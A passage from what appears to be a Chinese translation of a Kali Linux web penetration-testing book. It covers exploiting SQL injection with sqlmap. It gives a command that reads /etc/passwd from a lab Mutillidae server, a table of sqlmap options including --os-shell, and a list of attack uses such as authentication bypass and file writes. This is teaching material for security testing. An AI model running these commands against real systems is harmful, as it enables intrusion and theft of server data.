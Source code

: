 让我们看一个输出示例：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00153.jpeg)

攻击者的目标是利用 SQL 注入漏洞在服务器上进一步立足。 使用 sqlmap，您可以利用这个漏洞在数据库服务器上读写文件，这会调用目标上的`load_file()`和`out_file()`函数来实现它。 在下面的示例中，我们正在读取服务器上`/etc/passwd`文件的内容：

```

sqlmap -u "http://10.7.7.5/mutillidae/index.php?page=user-info.php&username=admin&password=admin&user-info-php-submit-button=View+Account+Details" -p username --file-read /etc/passwd

```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/web-pentest-kali-3e/img/00154.jpeg)

`sqlmap`工具提供了一些额外的选项，如下表所示：

| **选项** | **描述** |
| --- | --- |
| `-f` | 这将对数据库执行广泛的指纹识别 |
| `-b` | 这会检索 DBMS 横幅 |
| `--sql-shell` | 成功利用后访问 SQL shell 提示符 |
| `--schema` | 这枚举数据库模式 |
| `--comments` | 在数据库中搜索评论 |
| `--reg-read` | 这读取 Windows 注册表键值 |
| `--identify-waf` | 这识别 WAF/IPS 保护 |
| `--level N` | 这将扫描级别（注入变体的数量和复杂性）设置为`N`（1-5） |
| `--risk N` | 这设置了请求的风险（1-3）；等级 2 包括基于时间的重型请求；等级 3 包括基于 OR 的请求 |
| `--os-shell` | 这尝试返回系统 shell |

您可以在 sqlmap 的 GitHub 项目页面[`github.com/sqlmapproject/sqlmap/wiki/Usage`](https://github.com/sqlmapproject/sqlmap/wiki/Usage)中找到您可以与 sqlmap 一起使用的所有选项的详尽列表。

# SQL 注入漏洞的攻击潜力

以下是用于操纵 SQL 注入漏洞的技术：

+   通过修改 SQL 查询，攻击者可以从数据库中检索普通用户无权访问的额外数据

+   通过从数据库中删除关键数据运行 DoS 攻击

+   绕过认证并执行特权升级攻击

+   使用批量查询，可以在单个请求中执行多个 SQL 操作

+   可以使用高级 SQL 命令来枚举数据库的模式，然后也可以修改结构

+   使用`load_file()`函数在数据库服务器上读取和写入文件以及`into outfile()`函数写入文件
